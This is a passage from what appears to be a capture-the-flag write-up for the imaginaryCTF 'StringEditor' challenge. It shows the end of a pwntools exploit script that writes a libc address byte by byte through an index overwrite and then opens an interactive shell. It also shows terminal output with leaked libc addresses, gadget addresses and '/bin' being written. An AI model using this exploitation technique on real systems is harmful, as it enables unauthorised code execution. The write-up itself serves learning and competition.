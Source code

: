 ```

#Since libc addresses are only 6 bytes long, I can save a little bit of time by only overwriting 6 bytes.
for i in range(6):
	payload_part = payload[i].to_bytes(1, 'little')
	print(payload_part)
	final_offset = offset + i
	print(target.recvuntil(b'pallette)'))
	target.sendline(str(final_offset).encode('ascii'))
	print(target.recvuntil(b'index?'))
	target.sendline(payload_part) 	
	
print(target.recvuntil(b'pallette)'))
target.sendline(b'15')

target.interactive()
```
And here is what it looks like when run in the terminal:
```
knittingirl@piglet:~/CTF/imaginaryCTF$ python3 string_editor_payload.py 
[+] Opening connection to chal.imaginaryctf.org on port 42004: Done
[*] '/home/knittingirl/CTF/imaginaryCTF/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'Welcome to StringEditor\xe2\x84\xa2!\nToday, you will have the AMAZING opportunity to edit a string!\nBut first, a word from our sponsors: '
0x7f678eeeb410
0x7f678f084b28
binsh is at 0x7f678f04d5aa
pop rdi is at 0x7f678eebcb72
onegadget 1 at 0x7f678ef7ce73
onegadget 2 at 0x7f678ef7ce76
onegadget 3 at 0x7f678ef7ce79
b'\n\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n****************\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: '
b'\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\na***************\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x55f3ffa3d2a0\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/***************\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x55f3ffa3d2a1\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/b**************\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x55f3ffa3d2a2\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bi*************\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
b'\nDEBUG: 0x55f3ffa3d2a3\nDone.\nThe amazing, cool, epic, astounding, astonishing, stunning, breathtaking, supercalifragilisticexpialidocious string is:\n/bin************\nWhat character would you like to edit? (enter in 15 to get a fresh pallette)'
b'\nWhat character should be in that index?'
```